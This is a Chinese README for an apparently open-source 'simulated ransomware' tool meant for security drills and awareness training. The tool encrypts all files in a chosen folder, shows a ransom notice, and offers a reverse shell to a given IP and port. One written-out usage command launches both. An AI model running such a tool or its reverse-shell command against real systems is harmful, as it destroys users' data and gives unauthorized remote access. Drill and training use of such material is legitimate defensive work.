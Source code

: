 ## 使用场景
因安服需要进行应急演练及安全意识教育，不能对生产环境造成破坏，故使用模拟勒索进行演示，达到寓教于乐的效果

### 声明

本程序仅模拟勒索病毒环境，加密指定文件夹下的所有文件，在加密完成后显示勒索提示;提供IP及端口可进行反弹shell。 

仅供学习或用于安全意识培训提供参考，未经授权请勿进行破坏性测试，利用提供的信息造成的直接或间接损失，由使用者承担。

### 使用方法

使用参数-h查看
![](image/1.png)

#### 给定IP端口反弹shell,加密指定文件夹中的文件

``` 
racket.exe -H IP -P port "C:\Users\Administrator\Desktop\test"
```

加密文件

![](image/2.png)

反弹执行

![](image/3.png)


#### 部分环境对python支持不友好,用C简单改写一个实现加密和弹窗功能 racket3.0.exe
